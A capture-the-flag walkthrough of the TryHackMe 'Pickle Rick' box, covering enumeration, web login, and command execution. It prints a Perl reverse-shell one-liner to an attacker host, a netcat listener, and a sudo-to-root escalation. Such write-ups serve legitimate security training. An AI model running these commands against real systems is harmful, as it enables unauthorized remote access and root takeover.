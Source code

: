 ```yaml
---
layout: post
title: "Pickle Rick - TryHackMe"
date: 2020-07-26
excerpt: "Walkthrough for Pickle Rick on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Pickle Rick is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to root this box.

First, I enumerated the open TCP ports with **threader3000**.

![Pickle Rick threader3000]/assets/img/PickleRick1.png)

Next, I enumerated the ports with **nmap -A -p 22,80 [machine ip]**.

![Pickle Rick nmap]/assets/img/PickleRick2.png)

It appears there is a website running on port 80. I visited the site to see what I could find.

![Pickle Rick website]/assets/img/PickleRick3.png)

It appears you are looking for ingredients for a recipe, and need to log into the victim computer to find them. Let's look at the source code of this page. The bolded words of **BURP** are probably a hint that burp suite is needed.

![Pickle Rick Source Code username]/assets/img/PickleRick4.png)

This appears to be a username for something, so let's make a note of it for now. Next, let's enumerate the site with gobuster and see if we can find anything else on this site. The command I ran was **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50**

![Pickle Rick gobuster]/assets/img/PickleRick5.png)

We find a few different files/folders. **/assets** contained a couple of javascript files and a few images that we will come back to. The **robots.txt** contains a single word in it.

![Pickle Rick robots.txt]/assets/img/PickleRick6.png)

Let's take a look at **/login.php** (**/portal.php** redirects to **/login.php** as well). It asks for a set of credentials. Let's try the username and potential passwords we uncovered previously.

![Pickle Rick portal.php]/assets/img/PickleRick7.png)

We were able to login successfully and now have a command panel.

![Pickle Rick Command Panel]/assets/img/PickleRick8.png)

Let's run **whoami** and see what happens.

![Pickle Rick Command Panel 2]/assets/img/PickleRick9.png)

It appears we can execute shell commands, let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**

![Pickle Rick nc listener]/assets/img/PickleRick10.png)

Next, lets try entering reverse shell one liners ([found here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) until we find one that works. The perl one seemed to work with **perl -e 'use Socket;$i="[attacker ip]";$p=[attacker port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**

![Pickle Rick perl reverse shell]/assets/img/PickleRick11.png)

We should now have a reverse shell established on our attacker PC. Running **whoami** lets you know you're running as **www-data**, and there is a file here that appears to contain the first ingredient.

![Pickle Rick www-data shell]/assets/img/PickleRick12.png)

 Let's run **cat Sup3rS3cretPickl3Ingred.txt** and see what is there.

![Pickle Rick 1st ingredient]/assets/img/PickleRick13.png)

This is the answer to the first flag. There is another text file present, lets look at it with **cat clue.txt**

![Pickle Rick clue.txt]/assets/img/PickleRick14.png)

Let's take this clue's advise and run **find / -name "second*" 2>/dev/null**. This will return the location of the 2nd ingredient file.

![Pickle Rick 2nd ingredient location]/assets/img/PickleRick15.png)

Let's run **cat** on the file directory/name above in quotes and see what happens:

![Pickle Rick 2nd clue]/assets/img/PickleRick16.png)

Success, this is the 2nd clue. Let's run **sudo -l** and see if www-data has any privileges we can run as another user.

![Pickle Rick sudo -l]/assets/img/PickleRick17.png)

We can run any command as any user. Before we can swap users to root, we need to upgrade our shell. Let's run **python3 -c 'import pty; pty.spawn("/bin/sh")'.**

![Pickle Rick shell upgrade python3]/assets/img/PickleRick18.png)

Let's run **sudo su** to switch to root and then **cd /root** followed by **ls -al** to see what's in root's home folder. There's a file called **3rd.txt**. Let's run **cat 3rd.txt** to get the 3rd flag and finish this box.

![Pickle Rick 3rd ingredient]/assets/img/PickleRick19.png)

